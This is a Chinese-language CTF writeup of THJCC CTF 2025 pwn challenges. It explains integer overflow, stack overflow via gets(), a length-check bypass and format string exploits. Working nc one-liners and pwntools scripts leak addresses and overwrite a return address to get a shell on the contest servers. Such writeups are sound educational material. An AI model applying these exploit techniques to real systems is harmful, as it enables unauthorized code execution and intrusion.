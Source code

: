 ```yaml
---
title: THJCC CTF 2025 Writeup
published: 2025-04-22 02:45:00
updated: 2025-05-28T02:48:23.404Z
description: ""
image: ""
tags:
  - THJCC CTF
  - pwn
category: CTF
draft: false
lang: ""
---
```


> 比賽時 pwn 的題目並沒有寫完全部（5/7），若後續有解出來會再補上。

## Flag Shoping

It's the FLAG SHOP!!! Let's go buy some flags!!!

> Author: Grissia

`nc chal.ctf.scint.org 10101`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/flag_shopping.c)

### Solution

這一題是典型的 interger overflow 題，使用者可以選擇購買商品、輸入購買數量 `(long long)num`，而用來儲存持有金錢的 `money` 又是 `int` 型別。第 43 行在扣錢時，又將 `num` 轉型成 `int`，所以我們可以考慮以下攻擊流程：

- 輸入數量一個比 `INT_MAX` 大的數，讓第 43 行轉型別時會變成負數。在減法時就會**負負得正**。
- 重複以上動作直到持有金錢累計大於購買 flag 的金額 123456789。

所以我們的目標是讓 `money` 比原先多 123456789 - 100 = 123456689。

如果輸入的數字是 `INT_MAX` + 1 的話，型別轉換後會變成 `INT_MIN`，乘上 25 後就會再次 overflow 讓 `money` 變成負數。

```
> 1
> 2147483648
> 3
> 1
You only have -2147483548, But it cost 123456789 * 1 = 123456789
...
```

會導致這樣是因為原本 money 裡面有 100 元，所以就只要把輸入加上 100 / 25 = 4 後，應該就可以扣掉多餘的錢避免 overflow。但經測試之後要再加上 1 才夠。

## Money Overflow

I'm so poor that I can't afford to eat. I really wish I had a rich little sister to save me QQ

> Author: Dr.dog

`nc chal.ctf.scint.org 10001`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/money_overflow.c)

### Solution

這題就是簡單的 stack overflow 題，使用者的資訊會被存在一個 `struct` 裡面：

```c
struct {
  int id;
  char name[20];
  unsigned short money;
} customer;
```

而程式一開始就用不安全的函式讀，取使用者的輸入到 `customer.name`。這就給了我們利用的機會，只要填滿 `name` 後，就可以覆蓋到 `money` 的值。

```c
customer.id = 1;
customer.money = 100;
printf("Enter your name: ");
gets(customer.name);
```

而題目要求要 65535 才能拿到 shell，因此只要蓋 `\xff\xff` 就可以了。

```zsh
echo -e 'AAAAAAAAAAAAAAAAAAAA\xff\xff\n5\ncat flag.txt' | nc chal.ctf.scint.org 10001
```

## Insecure Shell

SSH is outdated<br>
ISSH is a more convenient alternative

> Author: Dr.dog

`nc chal.ctf.scint.org 10004`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/insecure_shell.c)

### Solution

這題會從 `/dev/urandom` 取出一段 15 bytes 的密碼，使用者必須輸入正確的密碼才能拿到 shell。但仔細閱讀程式碼，可以發現 `check_password()` 傳入的長度是使用者可控的，而不是密碼長度 15。

```c
check_password(password, buf, strlen(buf))
```

因此可以直接輸入一個長度 0 的字串繞過檢查，並拿到 shell。

```zsh
echo -e '\x00\ncat ../flag.txt' | nc chal.ctf.scint.org 10004
```

## Once

Are you sure you want to bet your life on winning this game in one chance?

![hyakusetsufuto](https://i.pinimg.com/736x/a4/5f/02/a45f02340a7bceef28ad678c5cd6507f.jpg)

> Author: Dr.dog

`nc chal.ctf.scint.org 10002`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/once.c)

### Solution

這一題是 format string 題，可以在程式碼中看到 `printf(buf)` 這種標誌型的特徵。程式一開始會隨機生成 `secret` 的內容，並在使用者輸入相同的字串時才能拿到 shell。既然是 format string，我們就可以嘗試 leak 出 `secret` 的內容。

```py
io.sendline(b"%8$p.%9$p")
    
io.recvuntil(b"Your guess: ")
high = io.recvuntil(b".").strip(b".")
high = int(high, 16)
low = io.recvuntil(b"\n").strip(b"\n")
low = int(low, 16)

secret =  p64(high) + p64(low)
info("secret: " + secret.decode());

io.sendline(b"n")

io.sendline(secret.strip(b"\x00"))
io.sendline(b"y")

io.sendline(b"cat ../flag.txt")
sleep(0.5)

io.recvuntil(b"answer!\n")
io.interactive()
io.close()
```

## Little Parrot

I'm a little parrot, and I'll repeat whatever you said!

> Author: Grissia

`nc chal.ctf.scint.org 10103`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/little_parrot.c)

### Solution

這一題也可以看到 format string 的漏洞，問題在於要怎麼跳到 `win()`。我的作法是 leak 出 stack 和 .text 段的 address，計算 offset 後用 format string 再寫入 return address 的指標。

```py
io.sendline(b"%40$p.%41$p")  # prev frame addr
io.recvuntil(b"You said > ")

prev_rbp = io.recvuntil(b".").strip(b".")
info("prev_rbp: " + prev_rbp.decode())

ret_addr = io.recvline().strip()
info("ret_addr: " + ret_addr.decode())

ptr_ret_addr = int(prev_rbp, 16) - frame_offset
info("ptr_ret_addr: " + hex(ptr_ret_addr))

win_addr = int(ret_addr, 16) - win_offset
info("win_addr: " + hex(win_addr))

info(hex(ptr_ret_addr + 4) + " -> win_addr: " + hex(win_addr))

payload = fmtstr_payload(
    offset=6,
    writes={
        ptr_ret_addr: win_addr,
    },
    write_size='short',
)

info(b"payload: " + payload)

io.sendline(payload)

io.sendline(b"exit")
io.interactive()
io.close()
```

## Bank Clerk

Do you know what the "Principle of Least Privilege" is? But what if I can control the system even through I'm just a bank clerk?

> Author: Dr.dog

`nc chal.ctf.scint.org 10003`

## Painter

I created a stack structure to store my artwork:D

> Author: Dr.dog

`nc chal.ctf.scint.org 10006`
